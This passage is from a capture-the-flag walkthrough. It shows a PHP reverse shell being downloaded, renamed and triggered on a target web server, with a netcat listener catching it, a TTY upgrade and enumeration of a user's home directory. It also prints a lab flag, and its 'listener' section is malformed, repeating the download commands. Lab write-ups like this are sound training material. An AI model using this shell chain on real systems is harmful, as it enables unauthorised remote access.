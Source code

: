 <h3>reverse shell</h3>

```bash
:~# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
...
:~# mv php-reverse-shell.php rev.php
...
```

![image](https://github.com/user-attachments/assets/84b430fc-5b79-497c-ab1a-eb76c750a163)


<h3listerner</h3>

```bash
:~# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
...
:~# mv php-reverse-shell.php rev.php
...
```

<br>

> 1.8. <em>Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?</em><br><a id='1.8'></a>
>> <strong><code>thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}</code></strong><br>
<p></p>

<p>Navigated to <code>http://TargetIP/rev.php</code></p>

```bash
:~# nc -nlvp 9001
Listening on 0.0.0.0 9001
...
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ^Z
[2]+  Stopped                 nc -nlvp 9001
:~# stty raw -echo; fg
nc -nlvp 9001
...
www-data@ubuntu:/home/stux$ cat stux.txt
cat: stux.txt: No such file or directory
www-data@ubuntu:/home/stux$ cat user.txt
cat: user.txt: Permission denied
...
www-data@ubuntu:/home$ cd stux
www-data@ubuntu:/home/stux$ ls -lah 
total 44K
drwxr-xr-x 4 stux stux 4.0K May 22  2021 .
drwxr-xr-x 3 root root 4.0K May 21  2021 ..
-rw-r--r-- 1 root root   74 May 22  2021 .bash_history
-rw-r--r-- 1 stux stux  220 May 21  2021 .bash_logout
-rw-r--r-- 1 stux stux 3.7K May 21  2021 .bashrc
drwx------ 2 stux stux 4.0K May 21  2021 .cache
-rw-r--r-- 1 root root  429 May 21  2021 .dbshell
-rwxrwxrwx 1 root root    0 May 21  2021 .mongorc.js
drwxrwxr-x 2 stux stux 4.0K May 21  2021 .nano
-rw-r--r-- 1 stux stux  655 May 21  2021 .profile
-rw-r--r-- 1 stux stux    0 May 21  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root root  312 May 21  2021 .wget-hsts
-rw------- 1 stux stux   46 May 22  2021 user.txt
```